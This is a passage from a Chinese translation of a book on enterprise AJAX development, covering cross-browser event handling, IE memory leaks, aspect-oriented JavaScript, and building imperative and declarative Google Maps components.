当事件实际上由某些最终用户交互触发时，`entAJAX.EventManager.m_notify()`方法处理该事件，随后将事件委托给所有感兴趣的处理程序。因为`m_notify() {}`方法协调附加事件处理程序的调用，我们可以确保事件处理程序被调用的顺序——这在大多数浏览器中是没有保证的——并指定我们喜欢的任何参数。

这种间接性使我们能够规避各种浏览器之间事件处理的差异，并给了我们一点甚至没有要求的灵活性。例如，如果我们要将两个事件处理程序附加到某个 HTML 元素上，以便在`onclick`事件上触发，`entAJAX.EventManager.m_notify() {}`方法将作为`onclick`事件处理程序附加到该元素上，而我们要附加的每个事件处理程序将存储在 HTML 元素本身的`ea_events['onclick']` expando 属性中。

随后，当最终用户单击该元素时，`m_notify() {}`方法会调用在 HTML 元素的`ea_events['onclick']` expando 属性中定义的每个处理程序，正如您在前面的代码中看到的。

## 第 3 章 AJAX 在 Web 浏览器中

如果我们在附加两个不同的`onclick`事件处理程序后序列化 HTML 元素，它将如下所示：

```html
<div
  onclick="entAJAX.EventManager.m_notify(event, this)"
  ea_guid="7"
  ea_events="{'click':
            {'0':{'handler':Function, 'context':Object},
             '1':{'handler':Function, 'context':Object}},
             'mouseover':{…}
            }" … >
</div>
```

我们现在来看这种附加方法如何解决我们的六个主要问题。为了使我们能够以跨浏览器友好的方式将事件处理程序附加到 HTML 元素（要点 #1），我们已经在`entAJAX.EventManager`对象的静态`attachEvent()`和`detachEvent()`方法中封装了对浏览器类型的检查，有效地使用了外观模式，如图 3.8 所示。

我们只需要在 Internet Explorer 中使用`attachEvent()`方法，在其他浏览器（如 Firefox、Safari 和 Opera）中使用`addEventListener()`。（然而，Opera 支持这两种方法。）



### 图 3.8 有效地使用外观模式

事件捕获，如第 2 章所讨论的，在 Internet Explorer 和 W3C 事件模型中都可用，尽管事件捕获在不同浏览器中的工作方式不同。再次，我们使用了外观模式来隐藏事件捕获的细节，通过在`attach`方法中提供一个布尔参数，如果为`true`则可以启用捕获，默认情况下不启用捕获。

事件捕获在某些情况下可能很有用。我们也通过使用 IE 中的`setCapture()`函数和其他 Web 浏览器的`addEventListener()`中定义捕获事件的支持启用了 #2。尽管它是一个有用且被严重误解的事件处理技术，但由于 Internet Explorer 和 Firefox 浏览器实现之间的差异，事件捕获在很大程度上是无效的。

虽然它不是 W3C 事件规范的一部分，但 Internet Explorer 通过全局`window.Event`对象提供对事件信息的访问。通过像我们这样拦截和委托事件，我们创建了自己的全局事件对象，它本质上与 IE 中的全局`Event`对象属性相同。

此外，我们还将`Event`对象作为第一个参数传递给事件处理程序方法，这是根据 W3C DOM Event 规范访问`Event`对象的方式。以这种方式处理`Event`对象意味着，习惯于使用 Internet Explorer 或符合 W3C 标准的浏览器的开发人员都会感到熟悉，同时，我们防止了与其他 AJAX 库（如 Microsoft 的 Atlas）的任何冲突，后者在 Internet Explorer 和 Firefox 中都使用`window.event`属性。

虽然这确实解决了我们许多关于`Event`对象的问题，但我们还没有仔细研究 Internet Explorer 和符合 W3C 标准的模型中`Event`对象方法和属性的差异。

与`Event`对象密切相关的是如何访问各种事件属性。一个重要的访问对象是触发事件的元素（要点 #4）。这可以通过 Internet Explorer 中的`Event`对象`srcElement`属性和其他大多数浏览器中的`target`属性轻松处理。

这些对象属性上的差异通常可以通过以下两种方式之一来处理。虽然我们已经对事件管理使用了外观模式，但我们也可以扩展 Gecko 和 KHTML/WebKit 浏览器中的原生对象，使它们直接支持`HTMLElement`类型的`attachEvent()`方法。

Firefox 和最近的 Safari 版本（同样是构建 15836）都支持修改原生浏览器对象，例如`Event`对象或`HTMLElement`对象。要在支持 getter 和 setter 的浏览器中扩展`Event`对象，可以在类的`prototype`属性上使用特殊的`__defineGetter__`方法，如下所示：

```javascript
Event.prototype.__defineGetter__("srcElement", function () {

  var node = this.target;

  while (node.nodeType != 1) node = node.parentNode;

  return node;

}
```


其他可供开发者选择的方式包括：创建跨浏览器的 `Event` 对象时，为原生对象添加额外属性，或者将原生 `Event` 对象的所有属性复制到一个完全自定义的对象中。

虽然获取触发事件的 DOM 元素的引用很简单，但在 Internet Explorer 中使用原生 `attachEvent()` 方法时，无法访问处理事件的元素，也就是附加了事件处理程序的 DOM 元素。为了访问处理事件的 DOM 元素（第 5 点），而这在许多情况下都很方便，我们将处理事件的元素引用作为事件处理程序方法的第二个参数传入。或者，我们也可以为 `Event` 对象添加 `handlerElement` 属性，该属性同样引用这个元素。无法引用处理事件的元素，是 Internet Explorer 事件模型中常见的问题。

另一方面，在 Firefox 中，通常可以通过处理程序函数中的 `this` 关键字访问处理事件的元素，也就是说，处理程序函数是在 HTML 元素的上下文中执行的。然而，这并不总是理想的，尤其是在面向对象的环境中：处理程序通常不是全局函数，而是需要在所属对象的上下文中执行的方法。幸运的是，我们的事件管理方式也封装了这些细节。

剩下的唯一问题是确保事件附加不会造成内存泄漏（第 6 点），这需要添加一些代码。如果我们创建一个简单的网页，使用 `entAJAX.EventManager.attachEvent()` 方法将事件处理程序连接到 HTML 元素，那么由于 HTML DOM 与 JavaScript 运行时之间通过闭包和扩展属性形成了循环引用，在 Internet Explorer 中仍然会严重泄漏内存。

为了防止这种臭名昭著的内存泄漏，我们必须确保在网页卸载之前，及时从 HTML 元素中分离事件处理程序。当然，负责的开发者总是可以在应用程序卸载时编写代码来分离或注销事件；但是，这种情况很少发生。通过使用我们自定义的静态方法附加事件，内部会管理所有附加了事件处理程序的元素。当网页的 `unload` 事件触发时，所有事件处理程序都可以被自动分离。

实际的事件分离非常简单，由私有的 `m_detach()` 方法执行。当然，这里使用“私有”一词比较宽泛；我们将它注释为私有，并使用通常表示私有成员的 `"m_"` 前缀命名。

当事件处理程序被分离时，我们需要执行一些清理工作，以确保只有在元素上某种事件类型的最后一个事件处理程序被移除时，`entAJAX.EventManager.m_notify()` 处理程序才会通过相应浏览器的原生 `detachEvent()` 或 `removeEventListener()` 方法从 HTML 元素中分离。

进一步考虑后，你可能会注意到，`onunload` 事件可能会带来问题，因为开发者可能希望注册自己的 `onunload` 事件，同时还需要保留负责清理所有已附加事件的重要 `onunload` 事件处理程序。通过我们的事件接口注册的任何 `onunload` 事件，都可能像其他事件一样，在被调用之前就被分离并进行垃圾回收——这实际上是因小失大。

为了解决这个问题，我们将 `onunload` 事件与其他事件分开管理，并将它们记录在 `entAJAX.EventManager.m_unload` 数组中。`window.onunload` 事件被设置为触发所有受管理事件的分离，代码如下：

```javascript
window.onunload = entAJAX.EventManager.detachAll();
```

当然，以这种方式设置 `onunload` 事件可能会产生破坏性影响，但我们可以绕过这一点。为防止干扰 `onunload` 事件，对于任何自定义事件，坚持使用 `onbeforeunload` 事件也是一个好主意。这是微软引入的另一个事实上的标准。

## 面向切面的 JavaScript

我们借机插入一个示例，说明如何使用面向切面编程（AOP）设置 `window.onunload` 事件，同时不会破坏该事件已经引用的其他事件处理程序。

页面级或应用级事件（如 `onload` 和 `onunload`）在涉及 JavaScript 框架时可能是敏感话题。我们已经提到过，在处理这些事件时需要做一个好邻居。如果你期望自己的代码运行在与来自不同开发团队或组件供应商的代码共存的网页上，那么经验法则是尽可能保留现有功能。

另一方面，使用你代码的终端开发者可能不会如此谨慎，而是采用破坏性的方式，这可能会给你带来很大麻烦。`onload` 事件就是这类主要冲突点之一。正如本章前面所讨论的，使用 `onload` 对于引导启动 AJAX 应用可能至关重要。

当然，如果组件依赖于 `window.onload`，你应该意识到，不仅其他组件或框架会使用同一个事件，终端开发者也很可能会使用 `window.onload`，甚至在 `<body>` 元素上使用显式的 `onload` 属性来运行自己的 JavaScript 代码。

首先，如果使用 `window.onload` 事件，我们需要以非破坏性的方式设置它。在混搭环境中围绕 `onload` 事件产生的问题，正是我们展望一些更高级的引导启动技术的一个好理由。

我们已经看过如何向 `window.onload` 事件添加事件处理程序，同时保留该事件之前引用的任何函数。事实上，我们在那里所做的就是一种 AOP。

AOP 背后的思想是，我们可以在运行时动态地向对象添加功能，方式类似于 `装饰器` 模式，但前期设计要少得多。鉴于 JavaScript 语言的特性，这种方式极其容易实现。

我们在 `entAJAX` 命名空间中创建一个静态方法，该方法接受两个方法作为参数，并在每次调用第一个方法后调用第二个方法。这在 AOP 中通常被称为在“连接点”上添加“通知”。

由于 JavaScript 是动态的，通知的显式连接点不需要在应用设计期间定义，而是可以以更加灵活的方式添加。例如，对于分配给 `window.onload` 属性的函数，我们希望获取该函数，并确保它与我们想要附加到该事件的任何其他函数一起被调用。

为此，我们再次利用 JavaScript 闭包和关联数组，如下所示：

```javascript
entAJAX.attachAfter = function(oContext, oMember, oAContext,
                               oAMember)
{
  var fFunc = oContext[oMember] || function() {};

  oContext[oMember] = function() {
    fFunc.apply(oContext || this, arguments);
    oAContext[oAMember].apply(oAContext, arguments);
  }
}

entAJAX.attachAfter(window, "onunload", myObj, "myFunc");
```

AOP 只是 JavaScript 独特能力之一，因为 JavaScript 是一种动态语言。它可以成为在运行时动态更改类或实例功能的有用工具，也可以用于许多其他事情，例如使 `装饰器` 模式更容易实现，甚至变得不再必要。

## 面向切面编程

面向切面编程指的是一种用于解决所谓“横切关注点”的编程方法。特别是在面向对象编程中，封装会将相似的事物分组到不同级别的包和类中——例如，当我们想要创建一个动物的类层次结构时，这种方式非常理想。

然而，横切关注点是那些跨越垂直类分组、水平延伸到程序各个方面的内容。最典型的例子是日志记录。我们可能希望在两个不同继承层次结构中的多个类中添加某种日志记录功能。使用面向切面编程，可以跨越这些类层次结构添加日志记录功能。

面向切面编程通常需要大量的“辅助”代码；然而，JavaScript 使其相对容易实现。

## 总结

本章中，我们探讨了启动 AJAX 应用程序所需的一些基础工作，并从模型-视图-控制器（MVC）模式的角度分析了 AJAX 应用程序的三个主要方面。

既然我们已经打好了基础，在下一章中，我们将基于此处所学的一切，构建一个基于 AJAX 的用户界面组件，届时我们将能在坚实的 MVC 基础上进行构建。

## 资源

- Window.onload 问题及解决方案：http://dean.edwards.name/weblog/2005/09/busted/Cross browser
- JavaScript 资源：http://webfx.eae.net/
- 关于 Firefox 和 Quirks Mode 行为：http://developer.mozilla.org/en/docs/Mozilla_Quirks_Mode_Behavior
- 模型视图控制器：http://en.wikipedia.org/wiki/
- Internet Explorer 内存泄漏模式：http://msdn.microsoft.com/library/default.asp?url=/library/en-us/IETechCol/dnwebgen/ie_leak_patterns.asp

# 第四章

## AJAX 组件

本章在考察了几种模式之后，将探讨它们如何应用于实际的用户界面构建。你将学习如何将 AJAX 功能封装为命令式组件和声明式组件。

声明式组件的使用正变得日益重要，因为出现了各种新的声明式技术，例如可缩放矢量图形（SVG）、XML 绑定语言（XBL）和 Macromedia XML（MXML）。

用户界面功能的封装是企业级 AJAX 开发的一个至关重要的方面，因为它不仅促进了代码重用，还大大减少了应对多种浏览器独特怪癖的需求——这是快速开发高质量、富交互 AJAX 应用程序的关键一步。

我们可以使用传统的类、一些面向切面的编程、DOM 以及 DOM 事件来构建应用程序。到目前为止，我们的代码在很大程度上是使用 MVC 架构拼凑而成的。下一步是将我们的客户列表应用程序重构为更模块化和组件化的形式，以便我们可以在一个应用程序内，甚至整个企业中重用代码。

在本章结束时，我们将把客户列表 AJAX 应用程序转换为一个功能完备的声明式 AJAX 组件。我们还将探讨一些可用的客户端 AJAX 框架。

## 命令式组件

既然你已经清楚了解了如何在网页加载时启动 JavaScript，接下来可以看看如何实际使用 JavaScript、DOM 和 CSS 来创建一个 AJAX 组件。

如果你有任何服务器端编程经验，可能熟悉以命令式方式编写代码。命令式编程是大多数开发者所熟悉的，它是一系列计算机按指定顺序执行的命令。

我们可以通过创建一个新对象来轻松地用 JavaScript 实例化一个组件，并且通常会随后指定一个 HTML 元素来渲染视图——这将是通过 JavaScript 实现的命令式组件。

命令式编程很像制作一个火腿奶酪三明治。为了最终得到一个火腿奶酪三明治，你需要遵循以下步骤：

1. 拿到面包。
2. 在面包上涂上蛋黄酱和芥末酱。
3. 把火腿和奶酪放在面包上。
4. 合上三明治。
5. 享用吧！

如果你试图在错误的步骤合上三明治，或者在涂蛋黄酱之前就把火腿和奶酪放在面包上，你可能最终会搞得一团糟！这同样适用于以命令式方式编写 JavaScript 或 AJAX。

命令式 JavaScript 组件的一个很好的例子，是你们中一些人可能使用过的流行的 Google 地图组件。接下来，我们将探讨如何通过 JavaScript 使用它。

人们通常将 Google 地图集成到自己的应用程序中，构建所谓的混搭应用，全部使用命令式 JavaScript 代码实现。尽管将 Google 地图等公共 AJAX 应用程序纳入企业环境可能看起来有些格格不入，但它在可视化地理数据（如运输跟踪、车队跟踪或客户定位）方面非常有用。

无论如何，首先，与任何 JavaScript 组件一样，你需要确保 Google 提供的 JavaScript 库已包含在网页中。对于 Google 地图，可以通过使用单个 `<script>` 元素来包含 JavaScript 代码，如下所示：

```html
<html>
  <head>
    <script
      src="http://maps.google.com/maps?file=api&v=2&key=#INSERT_KEY_HERE#"
      type="text/javascript">
    </script>
  </head>
  <body>
    <div id="map" style="width: 370px; height: 380px"></div>
  </body>
</html>
```


要使用 Google 地图服务，与许多其他公开可用的 AJAX 组件或基于 Web 的数据源一样，你需要向 Google 注册以获取一个 API 密钥，该密钥将作为脚本位置中的查询字符串参数传递给 Google 服务。从 Google 服务器加载脚本并使用上一节中的至少一种启动技术后，你可以像这样创建一个 Google 地图：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml"
  xmlns:v="urn:schemas-microsoft-com:vml">

  <head>
    <style type="text/css">
      v\:* {behavior:url(#default#VML);}
    </style>

    <script
      src="http://maps.google.com/maps?file=api&v=2&key=#INSERT_KEY_HERE#"
      type="text/javascript"></script>

    <script type="text/javascript">
      var gmap = {};

      function gmap.init()
      {
        var map = new GMap2(document.getElementById("map"));

        // 以温哥华为中心
        map.setCenter(new GLatLng(49.290327, -123.11348), 12);
      }

      // 将 init 函数附加到 window.onload 事件
      entAJAX.attachAfter(window, "onload", gmap, "init");
    </script>
  </head>

  <body>
    <div id="map" style="width: 370px; height: 380px"></div>
  </body>
</html>
```

这里涉及相当多的开销，例如 XHTML doctype 和用于 Internet Explorer 的向量标记语言（VML）行为引用；重要的部分是包含外部的 Google 地图 JavaScript 文件以及创建新地图并将地图中心设置为温哥华的`init()`函数。地图被放置在`id`值为`map`的 DOM 元素内。当创建`GMap2`类的实例后，你可以通过公开的 JavaScript API 访问其各种属性和方法。这里，我们展示如何使用`GLatLng`点数组将一个`GPolyline`对象添加到地图上：

```javascript
var polyline = new GPolyline([
  new GLatLng(49.265788, -123.069877),
  new GLatLng(49.276988, -123.069534),
  new GLatLng(49.276988, -123.099746),
  new GLatLng(49.278108, -123.112106),
  new GLatLng(49.2949043, -123.136825)
], "#ff0000", 10);

map.addOverlay(polyline);
```

以命令式方式创建此 Google 地图的结果如图 4.1 所示，它是一个以温哥华为中心、高度交互的地图，其中显示了一条穿越城市的路线，看起来大致如下：


### 图 4.1 使用 Google 地图 API 在 Google 地图上显示的路径

在 Web 应用程序中创建 Google 地图所需的 JavaScript 代码类型，正是你可能在任何常见的用户界面开发语言中期望看到的那种代码。实际上，查看代码，你可能会认为它是用服务器端语言编写的。虽然今天命令式编程可能是常态；但展望未来，AJAX 开发将越来越多地转向声明式。微软和 Adobe 分别通过 XML-Script 和 Spry 追求这些方向，这无疑反映了这一点——更不用说这两家公司基于 XML 声明式编程模型的下一代技术 WPF/E 和 Flex 了。Google 地图是一个典型的命令式 AJAX 组件；然而，为了很好地掌握声明式编程，让我们看看如何将 Google 地图转换为声明式组件。

## 声明式组件

尽管以命令式方式定义组件可能很有用，但使用声明式方法定义组件也越来越常见。你可能已经至少了解一种声明式语言；HTML 和 XSLT 是两种常见的声明式语言示例。当使用声明式组件时，开发者无需关心事情在幕后是如何实现的，而只需要关心声明式结构；例如，在 HTML 中，Web 浏览器根据某些预定义的规则集来解析和解释标签。这样做的结果是，当 HTML 解析器发现被`<em>`标签包围的文本时，它会以强调的方式呈现该文本。默认情况下文本究竟如何被强调取决于 Web 浏览器，当然，开发者可以使用 CSS 来覆盖它。因为标记或声明指定了组件做什么而不是如何工作，这是声明式编程最大的优势。

在讨论命令式编程时，你了解到制作火腿奶酪三明治要达到理想结果可能有点麻烦。另一方面，使用声明式方法制作的火腿奶酪三明治过程可能更像是这样：

1. 请给我一个火腿奶酪三明治。
2. 享用吧！

与其逐一说明制作三明治的各个步骤，不如去你家附近的咖啡馆向服务员点一份三明治。声明式地而非命令式地制作三明治，步骤无疑更少，可能也更方便；不过这也有一些缺点。这里最显而易见的缺点是，如果你不小心，服务员可能会给你端来一份没有芥末的火腿芝士三明治！

你可能已经从众多采用声明式方法的服务端 Web 应用框架中熟悉了声明式编程，例如`JavaServer Faces`、`JSP`和`ASP.NET`。在这些语言中，你可以使用声明式语法定义页面的一部分，然后在服务器上进行处理，生成标准的 HTML，再像普通网页一样交付给客户端。

### 服务端声明式编程

在 ASP.NET 中，你可以像这样使用声明式的`DataGrid`控件定义一个网页：

```html
<asp:DataGrid id="ItemsGrid" BorderColor="black"
  BorderWidth="1" CellPadding="3"
  AutoGenerateColumns="true" runat="server">
</asp:DataGrid>
```

这个声明的处理过程是：.NET 框架加载包含该声明的 ASPX 网页，声明由服务器处理并替换为常规 HTML，然后流式传输到客户端，就像它是一个普通的 HTML 页面一样。当然，你可以看出这个故事肯定比那个简单的声明要复杂得多，因为其中并未提及要在`DataGrid`中渲染什么数据。尽管这些各种服务端技术确实提供了不错的声明式接口，它们仍然需要一点代码来将所有内容连接起来。在 ASPX HTML 页面的幕后，是一个代码页，其中可能包含一些 C# 代码，如下所示，用于将`DataGrid`连接到数据库：

```csharp
// Define the DataGrid
protected System.Web.UI.WebControls.DataGrid ItemGrid;

private void Page_Load(object sender, System.EventArgs e)
{
  ItemGrid.DataSource = myDataSet;
  ItemGrid.DataBind();
}
```

通过结合声明式和命令式方法，开发人员可以兼得两者之长，使他们能够快速开发简单的应用程序，同时仍然能够控制应用程序组件的所有方面。

采用声明式方法来构建应用程序有许多优点。最显而易见的优点是，标记比代码更具“可设计性”，因为它能够实现更好的工具支持。ASP.NET 或 JavaServer Face 组件在 Visual Studio 或 JavaStudio Creator 中就是很好的例子，你可以在应用程序设计期间将组件拖放到网页中，并进行可视化配置，而无需编写代码。

声明只是一段 XML 片段，这意味着可以使用 XML Schema 来确保声明符合预期的 XML 结构。针对严格的 XML 架构进行验证，使声明式组件比纯 JavaScript 对应物要少得多出错。在 Eclipse 或 Visual Studio 等 Web 编辑器中编写声明也可以变得更加容易，通过使用自动完成功能（例如 Visual Studio 的 IntelliSense）来确保声明在编写时符合 XML 架构。事实上，在某些时候，事情可以变得更加简化，因为在声明式框架中，一个`DataGrid`（如 Adobe 的 MXML 语言中的）与另一种语言（如 XForms）中的`DataGrid`之间，只需一次 XSLT 转换即可实现——从而在不更改和重新编译任何代码的情况下，跨平台实现相同的功能。当然，只要付出一些努力，这对几乎任何编程语言都可以这样说；然而，声明式编程确实具有这样的优势：语句声明的顺序对组件的操作没有影响，而且声明是基于 XML 的，因此易于机器读取。

尽管声明可以让开发人员完成构建出色应用程序的大部分工作，但总有最后那一点点需要更精细的控制来以特定方式自定义组件。在这些情况下，你仍然可以退而使用声明式框架所基于的编程语言，无论是 Java、C# 还是 JavaScript。

### 声明式 Google 地图

声明只是命令式代码之上的一个抽象层。声明中的元素大致映射到对象，属性映射到这些对象上的字段或属性。虽然声明没有指定对象的任何方法（而且它也不应该），但它可以表达关于对象**状态**的一切，或者对你来说更熟悉的，对象的序列化形式。在我们命令式的 Google 地图示例中，我们通过容易出错且未编译的 JavaScript 创建、设置和渲染 Google 地图，resulting in a map that has a certain zoom level and is centered on some lat/long coordinates. 理想情况下，我们可以取而使用 XML 引用的地图描述，其中包含有关地图的所有信息——缩放级别、中心坐标等等——并基于存储在 XML 中的该状态信息实例化地图。因此，与其用 JavaScript 定义我们的 Google 地图，你可以使用自定义的 XHTML 声明来描述序列化地图的状态，该声明被反序列化（通过你可以编写的一些代码），结果就像你明确编写了 JavaScript 代码一样生成了地图。基于我们之前编写的命令式代码，Google 地图声明可能看起来像这样：

```xml
<g:map id="map" width="370px" height="380px"
  smallmapcontrol="true" maptypecontrol="true">

  <g:center zoom="14">
    <g:point lat="49.2853" lng="-123.11348"></g:point>
  </g:center>

  <g:polyline color="#FF0000" size="10">
    <g:point lat="49.265788" lng="-123.069877"></g:point>
    <g:point lat="49.276988" lng="-123.069534"></g:point>
    <g:point lat="49.276988" lng="-123.099746"></g:point>
    <g:point lat="49.278108" lng="-123.112106"></g:point>
    <g:point lat="49.294904" lng="-123.136825"></g:point>
  </g:polyline>
</g:map>
```

这个声明与命令式代码之间的对应关系很清楚——声明中的几乎每一行都可以被识别为 JavaScript 代码中的一行。最大的区别在于，正如我们所讨论的，声明仅指定地图应该如何显示，独立于任何编程语言，而且采用行业标准的、易于机器读取的、有效的（根据 XML Schema）格式。

将声明转换为 Google 地图实例的实际代码留给声明处理器，同样，这可以用任何语言或平台实现——在我们的案例中，我们坚持在 Web 浏览器和 JavaScript 中使用 Groups。此外，命令式编码中对语句顺序的依赖——即你必须在设置属性之前创建地图对象——被 XHTML 声明的嵌套结构所掩盖，使开发人员无需理解代码执行顺序上的任何依赖关系。然而，他们必须理解声明的 XML 架构。让我们更仔细地看看我们在这里为地图声明定义了什么。

首先，我们使用一个具有特殊名称`<g:map>`的 DOM 节点定义了我们声明的根。`g`前缀用于指定一个特殊的命名空间。这使得 HTML 解析器能够识别那些不属于常规 HTML 规范标签。当组件从声明中加载时，我们希望它结果是在声明的位置创建一个 Google 地图，并且该地图将具有指定的 UML 尺寸、缩放级别和中心点。类似地，它将在地图上绘制一条`polyline`，具有给定的颜色、起点和终点。唯一的诀窍是，我们需要编写 JavaScript 代码来从声明到地图的实例！

由于 Web 浏览器对我们的自定义 XHTML 声明一无所知，它没有内置的代码来基于声明查找和创建我们的组件。要从我们的组件声明到 AJAX 组件的实例，我们需要使用到目前为止所学过的几乎所有技术。首先，我们需要使用第 3 章“Web 浏览器中的 AJAX”中讨论的一种技术进行引导——这与我们对命令式组件需要做的完全相同。我们的 Google 地图示例页面现在变成如下所示：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml"
  xmlns:v="urn:schemas-microsoft-com:vml"
  xmlns:g="http://www.enterpriseAJAX.com/gmap">

  <head>
    <link rel="stylesheet" href="gmaps.css" type="text/css"></link>

    <script
      src="http://maps.google.com/maps?file=api&v=2&key=#INSERT_KEY_HERE#"
      type="text/javascript"></script>

    <script type="text/javascript" src="entajax.toolkit.js"></script>
    <script type="text/javascript" src="gmaps.js"></script>
  </head>

  <body>
    <g:map id="map" width="370px" height="380px"
      smallmapcontrol="true" maptypecontrol="true">

      <g:center zoom="14">
        <g:point lat="49.2853" lng="-123.11348"></g:point>
      </g:center>

      <g:polyline color="#FF0000" size="10">
        <g:point lat="49.265788" lng="-123.069877"></g:point>
        <g:point lat="49.276988" lng="-123.069534"></g:point>
        <g:point lat="49.276988" lng="-123.099746"></g:point>
        <g:point lat="49.278108" lng="-123.112106"></g:point>
        <g:point lat="49.294904" lng="-123.136825"></g:point>
      </g:polyline>
    </g:map>
  </body>
</html>
```

现在网页上已经没有任何 JavaScript 的痕迹了，但我们额外添加了两个外部 JavaScript 文件来负责解析这个声明，并将特殊的 CSS 移到了一个外部文件中，同时添加了声明本身。这种页面可以由设计师或不熟悉 JavaScript 的人来编写。

包含的`entajax.toolkit.js`文件包含了所有我们为了使该功能在 Firefox、Internet Explorer 和 Safari 上运行所需的辅助类和函数。而所有的魔法都发生在`gmaps.js`中。`gmaps.js`的内容如下：

```javascript
entAjax.initComponents = function()
{
  // Iterate over all pre-defined elements
  for (var tag in entAjax.elements)
  {
    // Get the all the <G:*> elements in the DOM
    var components = entAjax.html.getElementsByTagNameNS(tag, g);

    for (var i = 0; i < components.length; i++)
    {
      // A custom element is only initialized if it is a root node
```


```javascript
if (entAjax.isRootNode(components[i])) {
  // Call the defined method that handles such as component
  entAjax.elements[tag].method(components[i]);
}
```

`initComponents()` 方法依赖于几件事。首先，为了便于从 XHTML 构建 JavaScript 组件的灵活且可扩展的方法，我们使用一个全局哈希表，其中键是预期的 HTML 元素名称，值包含有关如何将该 XHTML 元素反序列化为 JavaScript 的额外元数据。这种方法类似于一种更通用的技术，可以根据 XHTML 模式反序列化组件。对于一个小型、具有代表性的可用于创建 Google 地图的参数子集，`entAjax.elements` 哈希表可能看起来像这样：

```javascript
entAjax.elements = {
  "map": {
    "method": entAjax.createGMap,
    "styles": ["width", "height"]
  },
  "smallmapcontrol": {
    "method": entAjax.createSmallMapControl
  },
  "maptypecontrol": {
    "method": entAjax.createMapTypeControl
  },
  "polyline": {
    "method": entAjax.createPolyline
  },
  "center": {
    "method": entAjax.centerMap
  }
};
```

我们在 `entAjax.elements` 哈希表中定义了五个键，分别是 `map`、`smallmapcontrol`、`maptypecontrol`、`polyline` 和 `center`。对于每个与预期 DOM 节点名称相关的键，我们定义一个包含 `method` 字段和可能 `styles` 字段的对象。`method` 指的是用于反序列化具有指定节点名称的 DOM 节点的 JavaScript 函数，而 `styles` 是一个数组，我们用它将 `<g:map>` 元素上的可能属性映射到 CSS 样式值——在这种情况下，我们希望将 `<g:map width="370px" height="380px">` 转换为一个看起来像 `<div id="map-1" style="width:370;height:380px;">` 的 HTML 元素。

我们使用了 `entAjax.getElementsByTagNameNS` 函数来获取对自定义 XHTML 元素的引用，而不是使用原生的 DOM `getElementsByTagNameNS` 方法。这样做的原因是 Internet Explorer 不支持通过命名空间选择元素，而其他浏览器如 Firefox、Safari 和 Opera 仅在网页作为 XHTML 提供时才使用它，这意味着它必须在服务器的 HTTP 头中设置内容类型为 `application/xhtml+xml`。Internet Explorer 还有一个怪癖，即它完全忽略元素命名空间，仅基于本地名称（如 `"map"`）选择元素。另一方面，其他浏览器在非 XHTML 模式下操作时，接受像 `"g:map"` 这样的完全限定标签名称。`entAjax.getElementsByTagNameNS` 函数有效地隐藏了这些浏览器的细微差别。

在获取网页中所有自定义标签的列表后，我们接着使用 `entAjax.elements` 哈希表中的标签构造函数定义，来找到我们编写的用于将该元素实例化为等效 JavaScript 对象的方法。

```javascript
entAjax.elements[tag].method(components[i]);
```

我们将一个参数传递给根标签构造函数，这个参数是声明元素，整个组件可以从它开始构建。`entAjax.elements` 哈希表中的每个方法都可以根据 `Factory` 模式被看作是工厂。对于 `<g:map>` XHTML 元素的情况，会调用 `createGMap` 函数。`createGMap` 函数是一个自定义函数，用于创建 `GMap2` 类的实例，并设置所有子控件和相关属性：

```javascript
entAjax.createGMap = function(declaration) {
  var container = document.createElement('div');

  entAjax.dom.insertAdjacentElement("afterEnd", declaration, container);

  // Move any declaration attributes to the Map style
  parseStyle(entAjax.elements["map"].styles, declaration, container);

  var gmap = new GMap2(container);

  // Iterate over attributes on DOM node
  forAttributes(declaration, function(attr) {
    container.setAttribute(attr.nodeName, attr.nodeValue);

    if (entAjax.elements[attr.nodeName] != null) {
      entAjax.elements[attr.nodeName].method(gmap, attr);
    }
  });

  // Iterate over child DOM nodes
  forChildNodes(declaration, function(elem) {
    entAjax.elements[formatName(elem.nodeName)].method(gmap, elem);
  });
};
```

对于每个 `<g:map>` 元素，我们创建一个标准的 `<div>` 元素 `<div>`，地图将附着在这个元素上。通常情况下，组件需要附着到一个标准的 HTML `<div>` 元素上，然后使用新创建的 `<div>` 元素作为唯一的构造函数参数来创建 `GMap2` 类的实例。需要对声明解析执行两个通用操作：首先，必须处理声明节点上的所有属性；其次，需要处理声明节点的所有子元素。由于 `GMap2` 组件的设计方式，我们还需要将一些自定义样式信息（如宽度和高度）从声明节点复制到 `<div>` 容器元素。许多这样的特殊情况可以在组件框架中被泛化，但当围绕一个没有考虑声明功能而构建的 JavaScript 组件包装声明功能时，这些方法就不那么优雅了。

### 替代方法

虽然我们使用自定义 XHTML 作为声明，但也可以使用其他技术来配置组件。与基于 XML 的声明配置组件相比，最流行的替代方法是使用简单的 JavaScript 对象。对于我们的地图示例，以下可能是地图配置的格式：

```javascript
var configuration = {
  "map": {
    "center": {
      "zoom": 10,
      "point": {
        "lat": 23,
        "lng": -122
      }
    },
    "polyline": {
      "color": "#FF0000",
      "size": 10,
      "points": [
        {
          "lat": 49.265788,
          "lng": -123.069877
        },
        {
          "lat": 49.276988,
          "lng": -123.069534
        }
      ]
    }
  }
};
```

这个配置然后可以作为传递给地图工厂的唯一参数，并将产生一个与我们概述的 XHTML 声明方法相同的地图。使用这样的 JavaScript 对象是 Yahoo 的 AJAX 用户界面组件接受配置的方式。

配置 AJAX 组件的另一种方式是使用 CSS 属性，尽管目前这种方式相当不常见。使用 CSS 配置 AJAX 组件特别有效，因为 CSS 可以通过 HTML `<link>` 元素链接到外部文件，并且这项技术对大多数网络设计师来说都很熟悉。然而，与 JavaScript 对象或 XHTML 声明相比，CSS 的表达能力要弱得多，并且一些动态 CSS 功能在 Safari 等浏览器中不可用。第 2 章“AJAX 构建块”介绍了如何通过 DOM API 动态访问和操作样式表规则。

